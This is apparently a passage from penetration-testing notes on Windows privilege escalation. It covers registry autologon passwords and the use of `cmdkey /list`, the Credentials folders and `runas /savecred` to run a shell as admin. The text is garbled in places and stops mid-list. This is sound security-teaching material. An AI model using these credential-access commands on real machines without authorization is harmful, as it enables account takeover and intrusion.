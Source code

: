 # Passwords

## 01 - Registry

Part of the registry configuration is that most Windows operating systems (except Enterprise) were setup specifically to home users sometimes that when they run something that might need to ask the user to give privileges to install applications or changing settings one their computers. Then this is most possibly related to Auto Login settings that is enabled.

Visit the section related to [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Credential Access and Dumping/Windows/Host/Registry/Passwords|Autologon]] settings won't work so instead go to the **Auditing Tools** related for Windows that those helpful scripts will fetch you the credentials you're looking or other interesting files that might be a factor.

## 02 - RunAs

### 2.1 - Manual

#### 2.1.1 - Saved Credentials

##### 2.1.1.1 - Command Prompt

- This privilege escalation techniques is really easy to escalate to get the administrators group level. As the command follows:

```
C:\> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin

C:\> dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\

C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\
```

We know the user is `admin` and the type of password is **Domain Password**. We will use the `runas` windows command to execute with admin privileges. And the flag `/savecred` will store the credentials in the **Windows Credentials** management and can be elevated without needing to re-enter the password after passing the particular username account once.

`C:\> runas /savecred /user:admin shell.exe`

- The full path of the runas.exe Windows builtin tool

